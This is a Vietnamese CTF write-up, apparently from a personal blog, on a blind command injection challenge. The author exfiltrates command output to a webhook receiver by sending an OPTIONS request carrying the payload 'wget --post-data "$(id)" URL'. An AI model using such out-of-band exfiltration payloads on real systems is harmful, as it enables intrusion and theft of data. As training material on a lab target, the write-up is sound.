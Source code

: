 ```yaml
---
title: Write-Up Blind Command Injection
date: 2023-09-17 12:34:01 +0700
categories: [CTF, Cookie Hân Hoan, Write-Up]
tags: [web, write-up, ctf]     # TAG names should always be lowercase
---
```

Địa chỉ : **[Blind Command Injection](https://battle.cookiearena.org/challenges/web/blind-command-injection)**

## **Challenge Details**

It retrieves the value of the query parameter 'cmd' from the request's query string. If no value is provided for 'cmd,' it returns the string "?cmd=[cmd]". If the HTTP method is not GET (which means it's another method, like POST or PUT, HEAD), it executes the command specified in the 'cmd' parameter using `os. system(cmd)`.

It can potentially be dangerous as it allows the execution of arbitrary commands passed as input. But we can not see the result because the admin is not using the `print()` function.

Please use the `OOB` technique to catch the request. The Out-Of-Band (OOB) technique allows an attacker to confirm and exploit a vulnerability that would otherwise be blind. As an attacker, you do not receive the vulnerability's output in direct response to the vulnerable request in a blind vulnerability. Can you catch the result? How to read the `/flag.txt`. Do you try the OPTIONS Method?

## **Tags**

- Blind Command Injection
- Out-of-band (OOB)

*GIẢI THÍCH NGẮN VỀ In-Band VÀ Out-Of-Band*

*In-Band*

Là thực thi truyền hay gửi gói tin dữ liệu trong cùng lớp mạng hệ thống.
Ví dụ bạn thực thi câu lệnh trên webshell của 1 trang web

Thì gói tin gửi về server và trả về lại trang web và hiển thị lại cho bạn là trên lớp mạng hệ thống.

*Out-Of-Band*

Là thực thi truyền hoặc gửi dữ liệu ra bên ngoài.

Ví dụ: Tuy bạn thực thi câu lệnh webshell tuy nhiên gói tin trả về trên cùng hệ thống thì nó không hiển thị… nên buộc bạn phải gửi gói tin về 1 server web bên ngoài mới xem được.

Chi tiết bạn có thể tự tìm hiểu nha.

## ****Web Analysis:****

Tại `/` trang web:

![Untitled](/assets/writeup/cookie/BlindCMDI/Untitled.png)

Tại giao diện thì web hiển thị cho ta 1 parameter là ?cmd và cho giá trị đưa và là lệnh command.

hmm

Mình thử sử dụng parameter này truyền thử câu lệnh này xem sao nhé…

ở đây mình test bằng burpsuite.

![Untitled](/assets/writeup/cookie/BlindCMDI/Untitled%201.png)

Lúc này mình đã thực thi lệnh **`id`** tuy nhiên thì lệnh này trả về output những gì đã nhập… thì có vẽ như là tuy nó cho nhập nhưng nó `không thực thi`.

Thì ban đầu mình đã giới thiệu sơ qua về kĩ thuật `In-Band` và `Out-Of-Band`.

Mà để làm được `bắn gói tin ra ngoà`i thì mình sử dụng `curl`, `wget`…

Ở đây mình sử dụng [webhook](https://webhook.site) để nhận gói tin.

Mình thử test curl tới webhook của mình xem nó có hoạt động hay không nhé.

![Untitled](/assets/writeup/cookie/BlindCMDI/Untitled%202.png)

Quan sát bên webhook.

![Untitled](/assets/writeup/cookie/BlindCMDI/Untitled%203.png)

Có vẻ như lệnh curl nó đã không được thực thi.

Giờ mình thử wget xem sao.

![Untitled](/assets/writeup/cookie/BlindCMDI/Untitled%204.png)

![Untitled](/assets/writeup/cookie/BlindCMDI/Untitled%205.png)

Kết quả nó vẫn không hoạt động

Có vẻ như nó không thể thực thi câu lệnh ngay chính trang web của nó.

Mình đã tìm hiểu về cách post data của curl và wget thông qua chatgpt.

![Untitled](/assets/writeup/cookie/BlindCMDI/Untitled%206.png)

![Untitled](/assets/writeup/cookie/BlindCMDI/Untitled%207.png)

giờ đặt ra câu hỏi là “Sẽ ra sao nếu chúng ta gửi 1 câu lệnh command thông qua curl và wget”.

giờ mình test nha.

Nhưng vẫn chưa hoạt động sau khi test 77 49 lần và mình đọc lại đề và phát hiện là nếu phương thức GET không hoạt động thì còn các phương thức khác.

![Untitled](/assets/writeup/cookie/BlindCMDI/Untitled%208.png)

Tiến hành đỗi và test.

## ****Exploiting Command Injection Out-Of-Band****

Payload:

```jsx
wget --post-data "$(id)” URL
```

![Untitled](/assets/writeup/cookie/BlindCMDI/Untitled%209.png)

Nó đã gửi thành công.

quan sát webhook:

![Untitled](/assets/writeup/cookie/BlindCMDI/Untitled%2010.png)

Kết quả đúng như mình mong đợi =))

Việc còn lại là xem file flag ở đâu thôi..

![Untitled](/assets/writeup/cookie/BlindCMDI/Untitled%2011.png)

![Untitled](/assets/writeup/cookie/BlindCMDI/Untitled%2012.png)

Cat Flag

![Untitled](/assets/writeup/cookie/BlindCMDI/Untitled%2013.png)

![Untitled](/assets/writeup/cookie/BlindCMDI/Untitled%2014.png)

DONE =)))

`***Written by Ren***`